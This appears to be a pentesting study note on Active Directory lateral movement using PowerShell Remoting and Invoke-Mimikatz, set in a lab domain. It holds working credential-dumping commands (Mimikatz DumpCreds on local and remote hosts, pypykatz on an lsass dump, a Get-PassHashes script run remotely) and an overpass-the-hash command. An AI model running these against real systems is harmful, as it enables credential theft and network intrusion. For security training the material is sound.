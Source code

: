  # Lateral Movement - Powershell Remoting 

 *Think of it as **psexec** on steroids.*
*Powershell remoting is thinking an ability in windows that allow admins to do higher priv stuff conveniently TCP/5985 TCP/5986(SSL)*
- You can find this used in enterprises. Enabled by default on Server 2012 onwards
- You may need to enable remoting (*Enable-PSRemoting*) on a Desktop Windows machine, Admin privs are required to do that.
> Results: You get elevated shell on remote system if admin creds are used to suthenticate (which is default setting)


 - USC issues are not there when we use powershell remoting


## Types
- **One-to-One**
	- PSSession
		- Interactive
		- Runs in a new process
		- Is Stateful
			- untill unless you kill the session your declared variables will remain there.
	- Useful Cmdlets
		- `New-PSSession`
		- `Enter-PSSession`
- One-to-Many
	- Also known as Fan-out remoting\
		- From one machine you can command thousands of machines to do specific task.
	- Non-interactive
		- Can ask it to execute a particular command like we can run ssh to execute specific command on remote machine.
	- Executes commands parallely
	- Useful cmdlets
		- `Invoke-Command`
			- It can also run scripts also where you can specify a file 
			- It needs local admin priv on target machine so it is also helpful to check if we have local admin priv on target machine.
			- Ex:`Invoke-Command -Computername dcorp-adminsrv.dollar.moneycorp.local  -ScriptBlock{whoami;hostname}`
			- Ex:`Invoke-Command -Computername dcorp-adminsrv.dollar.moneycorp.local  -FilePath C:\scripts\Get-PassHashes.ps1`
				- Execute locally loaded function on the remote machine:
					- `${function:Get-PassHashes}`
				- Executing Stateful commands using `Invoke-Command`
				```powershell
					$sess = New-PSSession -Computername Server1
					Invoke-Command -Session $sess -ScriptBlock {$Proc = Get-Process}
					Invoke-Command -Session $sess -ScriptBlock {$Proc.Name}
				 
				 ```
	- The best thing in PowerShell for passing the hashes, using credentials and executing commands on multiple remote computers.
	- Use `-Credential`  parameter to pass username/password.

We can also load functions in `Invoke-Command`
```powershell
. .\hello.ps1
Invoke-Command -ComputerName adm.dcorp.local -ScriptBlock ${function:hello}
```

Content of *hello.ps1*
```powershell
function{
Write-Output "Hello from function"
}
```


# Lateral Movement - Invoke-Mimikatz
- Dump credentials, tickets and more using powershell without dropping exe file 
- Passing and replaying hashes, tickers and for many exciting AD attacks
- Using code from ReflectivePEInjection,mimikatz is loaded reflectively into the memory. All functions of mimikatz could be used from the script
- Needs **ADMIN** privileges to dump credentials from local machine. Need specific privileges which are covered while discussing that attack.
- We can also recover hashes from memory dump (Blackfield HTB)
```bash
pip3 install pypykatz
pypykatz lsa minidump lsaas.DMP
```

```powershell

# Dump credentials on a local machine
Invoke-Mimikatz -DumpCreds

# Dump credentials on multiple remote machines
Invoke-Mimikatz -DumpCreds -ComputerName @("sys1","sys2")

```

Mimikatz uses `Invoke-Command` to do above.

- "Over pass the hash" generate tokens from hashes
```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:dollarcorp.moneycorp.local /ntlm:<ntlmhash> /run:powershell.exe"'

# sekurlsa is a module
# user is username
# domain is name 
# ntlm is the provided hash
# run is to specify the command and it is Statefull as it uses Inoke-Command
```
*We can authenticate to Kerberos with NTLM hash using this technique*
# TIPS
- ConstrainedLanguage Mode
	- We cannot run some cmdlets and we cant have types ex: banned .NET classes and we can only use inbuilt cmdlets.
	- Command to find `$ExecutionContext.SessionState.LanguageMode`
- AppLocker is configured then Powershell 5.1 is smart enough to set itself into ConstrainedLanguage mode